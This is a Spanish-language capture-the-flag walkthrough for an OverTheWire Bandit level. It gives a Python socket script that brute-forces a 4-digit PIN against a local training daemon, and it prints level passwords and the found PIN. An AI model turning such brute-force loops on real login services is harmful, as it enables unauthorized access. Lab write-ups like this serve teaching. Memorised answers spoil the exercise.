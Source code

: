 Aquí tienes el **walkthrough** detallado del problema **Bandit Level 24 → Level 25** con una explicación clara del proceso de fuerza bruta y el código optimizado en Python.

---

# **Bandit Level 24 → Level 25 - Walkthrough**

## **Objetivo del Nivel**
Un daemon está escuchando en el puerto **30002** y proporcionará la contraseña para `bandit25` si recibe la contraseña correcta de `bandit24` y un código PIN de 4 dígitos. No hay manera de obtener el PIN más que probando todas las combinaciones posibles, lo que significa que debemos hacer un **ataque de fuerza bruta**.

## **Conceptos Claves**
### **Fuerza Bruta**
Este método consiste en probar **todas** las combinaciones posibles hasta encontrar la correcta. En este caso, tenemos **10,000 combinaciones posibles** (`0000` a `9999`).

### **Sockets en Python**
Un **socket** es una forma de comunicación entre procesos a través de la red. En este reto, usaremos **sockets TCP** para comunicarnos con el daemon en `localhost` y enviar los intentos de PIN de manera continua sin cerrar la conexión.

---

## **Pasos para Resolver el Nivel**

### **1. Conectar a Bandit 24**
Inicia sesión con la contraseña obtenida en el nivel anterior.

```sh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite, ingresa la contraseña:

```sh
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

---

### **2. Crear el Script en /tmp**
Nos movemos a la carpeta `/tmp` (ya que no tenemos permisos de escritura en `~/`):

```sh
cd /tmp
```

Creamos un nuevo archivo llamado `bruteforce.py`:

```sh
nano bruteforce.py
```

Pega el siguiente código en el editor.

---

## **3. Código en Python para la Fuerza Bruta**
Este script intentará **todas las combinaciones de PIN** en una sola conexión sin necesidad de reconectarse en cada intento.

```python
#!/usr/bin/env python3
import socket
import time

# Configuración de la conexión
host = 'localhost'
port = 30002

# Contraseña de bandit24 (asegúrate de usar la correcta)
password = 'gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'

# Crear socket TCP y conectar al daemon en el puerto 30002
s = socket.socket()
s.connect((host, port))

# Leer el banner inicial si lo hay
try:
    banner = s.recv(1024).decode('utf-8')
    print("Banner inicial:\n", banner)
except Exception:
    print("No se pudo leer el banner inicial.")

# Iterar sobre todos los posibles PINs (0000 - 9999)
for pin in range(10000):
    pin_str = f"{pin:04d}"  # Asegura que el PIN tenga 4 dígitos (ej: 0001, 0023)
    
    # Construir el mensaje: "contraseña PIN"
    mensaje = f"{password} {pin_str}\n"
    
    # Enviar el intento
    s.sendall(mensaje.encode())

    # Leer la respuesta
    try:
        respuesta = s.recv(1024).decode('utf-8')
    except Exception:
        print("Error al recibir respuesta.")
        break

    # Si encontramos la contraseña, la imprimimos y terminamos
    if "Password" in respuesta or "bandit25" in respuesta:
        print(f"¡PIN encontrado! PIN: {pin_str}")
        print("Respuesta del daemon:\n", respuesta)
        break
    else:
        print(f"Intento con PIN {pin_str} fallido.")



# Cerrar la conexión
s.close()
```

---

### **4. Dar Permisos de Ejecución**
Después de guardar el archivo (`CTRL + X`, luego `Y` y `Enter`), necesitamos darle permisos de ejecución:

```sh
chmod +x bruteforce.py
```

---

### **5. Ejecutar el Script**
Ahora podemos ejecutar el script y dejar que haga la fuerza bruta automáticamente:

```sh
./bruteforce.py
```

Este script probará **todas las combinaciones de PIN** (`0000` a `9999`) en una única conexión.

Cuando encuentre el PIN correcto, imprimirá algo como esto:

```sh
¡PIN encontrado! PIN: 9297

Respuesta del daemon:

 Correct!

The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

Copiamos esta contraseña y la usamos para el siguiente nivel.

---

### **6. Conectar a Bandit 25**
```sh
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

Cuando se solicite la contraseña, pegamos la que encontramos en el paso anterior.

---

## **Explicación del Código**
- **`socket.socket()`**: Crea una conexión TCP.
- **`s.connect((host, port))`**: Se conecta al puerto 30002 en `localhost`.
- **`s.sendall(mensaje.encode())`**: Envía la contraseña y el PIN al daemon.
- **`s.recv(1024).decode()`**: Recibe la respuesta del daemon.
- **`for pin in range(10000)`**: Itera desde `0000` hasta `9999` probando cada PIN.
- **`if "Password" in respuesta`**: Verifica si la respuesta contiene la contraseña de `bandit25`.

---

## **Conclusión**
Este método permite **encontrar el PIN correcto en menos de 1 minuto** sin necesidad de abrir múltiples conexiones. Si el script se interrumpe, puedes volver a ejecutarlo y comenzará desde `0000` nuevamente.

**¡Felicidades!** Has completado el nivel 24 y ahora puedes avanzar al nivel 25. 🚀